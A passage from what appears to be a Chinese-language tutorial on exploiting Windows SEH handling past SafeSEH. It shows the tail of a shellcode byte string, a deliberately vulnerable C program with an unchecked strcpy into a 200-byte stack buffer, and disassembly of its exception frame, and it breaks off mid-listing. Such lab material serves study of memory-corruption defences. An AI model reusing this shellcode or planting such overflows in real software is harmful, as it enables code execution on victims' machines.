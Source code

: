 ```
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char * input)
{
	char str[200];
	strcpy(str, input);	
    int zero = 0;
	__try
	{
	    zero = 1/zero;
	}
	__except(MyException())
	{}
}

int main()
{
	HINSTANCE hInst = LoadLibrary(TEXT("1.dll"));//load No_SafeSEH module
	char str[200];
	__asm int 3
	test(shellcode);
	return 0;
}
```

其实到这里就已经调试完了

但是为什么要在shellcode前面加上8字节的`\x90`呢？

这就需要来讲一下`try{}`这东西了

来读读test函数的汇编

```
00401750 >  55              push    ebp
00401751    8BEC            mov     ebp, esp
00401753    6A FE           push    -2                                   ; 在ss:[ebp-4]处赋值-2，关键1
00401755    68 48224000     push    00402248
0040175A    68 15164000     push    _except_handler4
0040175F    64:A1 00000000  mov     eax, dword ptr fs:[0]
00401765    50              push    eax
00401766    81C4 28FFFFFF   add     esp, -0D8
0040176C    A1 00304000     mov     eax, dword ptr [__security_cookie]   ; Security Cookie
00401771    3145 F8         xor     dword ptr [ebp-8], eax
00401774    33C5            xor     eax, ebp
00401776    8945 E0         mov     dword ptr [ebp-20], eax
00401779    53              push    ebx
0040177A    56              push    esi
0040177B    57              push    edi
0040177C    50              push    eax
0040177D    8D45 F0         lea     eax, dword ptr [ebp-10]
00401780    64:A3 00000000  mov     dword ptr fs:[0], eax
00401786    8965 E8         mov     dword ptr [ebp-18], esp
00401789    8B45 08         mov     eax, dword ptr [ebp+8]
0040178C    50              push    eax
0040178D    8D8D 18FFFFFF   lea     ecx, dword ptr [ebp-E8]
00401793    51              push    ecx
```